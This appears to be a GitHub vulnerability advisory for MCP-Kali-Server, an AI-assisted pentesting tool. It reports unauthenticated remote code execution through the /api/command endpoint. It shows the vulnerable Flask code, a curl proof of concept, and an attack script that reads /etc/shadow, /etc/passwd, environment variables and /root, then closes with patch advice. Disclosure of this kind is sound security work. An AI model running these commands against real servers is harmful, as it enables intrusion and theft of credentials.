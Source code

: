 # Security Policy

## Supported Versions

Use this section to tell people about which versions of your project are
currently being supported with security updates.

| Version | Supported |
| --- | --- |
| 5.1.x | :white_check_mark: |
| 5.0.x | :x: |
| 4.0.x | :white_check_mark: |
| < 4.0 | :x: |

## Reporting a Vulnerability

## **Summary**

A Remote Code Execution (RCE) vulnerability exists in the MCP-Kali-Server project, specifically in the /api/command POST endpoint defined in kali_server.py.
This endpoint allows attackers to send arbitrary shell commands in the request body, which are then executed on the server without proper sanitization or input validation.
As a result, an unauthenticated attacker can gain full command execution capabilities on the server,
leading to a complete system compromise.

## **Description**

Root Cause (Vulnerable Code)   

- The /api/command POST endpoint directly accepts the command parameter from the client and executes it without any input validation or sanitization.
This allows malicious commands to be executed.
- The execute_command function runs the received command on the shell without any additional security checks, enabling arbitrary code execution.
- The server is bound to all network interfaces (0.0.0.0) via app.run(host="0.0.0.0", port=API_PORT, debug=DEBUG_MODE), making the API accessible from external networks without authentication.
- Because of these reasons, the system is vulnerable to Remote Code Execution (RCE), allowing unauthenticated attackers to execute arbitrary system commands remotely.

```python
def execute_command(command: str) -> Dict[str, Any]:
    """
    Execute a shell command and return the result
    
    Args:
        command: The command to execute
        
    Returns:
        A dictionary containing the stdout, stderr, and return code
    """
    executor = CommandExecutor(command)
    return executor.execute()

@app.route("/api/command", methods=["POST"])
def generic_command():
    """Execute any command provided in the request."""
    try:
        params = request.json
        command = params.get("command", "")
        
        if not command:
            logger.warning("Command endpoint called without command parameter")
            return jsonify({
                "error": "Command parameter is required"
            }), 400
        
        result = execute_command(command)
        return jsonify(result)
    except Exception as e:
        logger.error(f"Error in command endpoint: {str(e)}")
        logger.error(traceback.format_exc())
        return jsonify({
            "error": f"Server error: {str(e)}"
        }), 500
    
   . . . 

    app.run(host="0.0.0.0", port=API_PORT, debug=DEBUG_MODE)

```

**Intended Functionality (Normal Usage)**

Kali MCP Server provides an API that allows MCP clients to execute Linux terminal commands and various tools (such as nmap, curl, gobuster), supporting AI-assisted penetration testing and real-time solving of CTF challenges.

**Attack Method**

An attacker sends a crafted POST request to the /api/command endpoint with a malicious command in the JSON payload. Since the server executes the received command without proper validation or sanitization, the attacker can run arbitrary shell commands remotely, leading to Remote Code Execution (RCE). This allows the attacker to execute any command on the server with the same privileges as the MCP server process.

## **PoC**

```bash
#!/bin/bash

TARGET="http://192.168.152.200:5000/api/command"
CMD="whoami"

curl -s -X POST "$TARGET" -H "Content-Type: application/json" -d "{\"command\":\"$CMD\"}"
```

## **Attack**

The attacker can exploit a Remote Code Execution (RCE) vulnerability to run arbitrary shell commands on the target system.

```bash
#!/bin/bash

TARGET="http://192.168.152.200:5000/api/command"

COMMANDS=(
  "uname -a"
  "cat /etc/os-release"
  "hostname"
  "ifconfig -a"
  "netstat -tulnp"
  "iptables -L -n"
  "id"
  "cat /etc/passwd"
  "cat /etc/shadow"
  "ps aux"
  "env"
  "pwd"
  "ls -al /root"
  "ls -al /home"
  "ls -al /var/www/html"
)

run_command() {
  local cmd="$1"
  echo -e "\n[+] Running command: $cmd\n"
  curl -s -X POST "$TARGET" -H "Content-Type: application/json" -d "{\"command\":\"$cmd\"}" | grep -oP '"stdout":"\K([^"]*)' | sed 's/\\n/\n/g' | sed 's/\\r//g' | sed 's/\\//g'
}

for cmd in "${COMMANDS[@]}"; do
  run_command "$cmd"
done

```

## Result

![image](https://github.com/user-attachments/assets/e82ee527-904c-42c5-9b39-272ee2420aea)


## **Impact**

An attacker exploiting the Remote Code Execution (RCE) vulnerability can execute arbitrary system commands on the target server. This may lead to a complete system compromise, including unauthorized access to sensitive information, modification or deletion of critical files, and service disruption.

## **Patch Recommendation**

To mitigate Remote Code Execution (RCE) risks, all user inputs—especially the command parameter—should be thoroughly validated and sanitized before execution. Furthermore, avoid executing system commands directly based on user input; instead, use secure APIs or implement strict command whitelisting to limit execution scope.
